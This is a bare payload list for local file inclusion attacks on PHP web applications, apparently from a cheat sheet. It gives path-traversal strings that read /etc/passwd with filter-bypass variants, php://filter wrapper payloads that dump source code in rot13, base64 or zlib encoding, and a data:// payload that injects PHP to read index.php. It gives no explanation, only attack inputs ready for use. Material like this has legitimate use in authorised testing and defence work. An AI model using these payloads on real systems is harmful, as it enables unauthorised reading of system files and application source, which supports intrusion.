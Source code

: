 
?page=..//..//..//..//..//etc/passwd
?page=....//....//....//....//etc/passwd
?page=....//....//....//....//....//....//etc/passwd
?page=.....///.....///.....///.....///etc/passwd
?page=..\\/..\\/..\\/..\\/etc/passwd

# PHP Filter
?page=php://filter/resource=/etc/passwd
?page=php://filter/read=string.rot13/resource=index.php
?page=php://filter/convert.base64-encode/resource=index.php
?page=pHp://filter/convert.base64-encode/resource=index.php
?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>
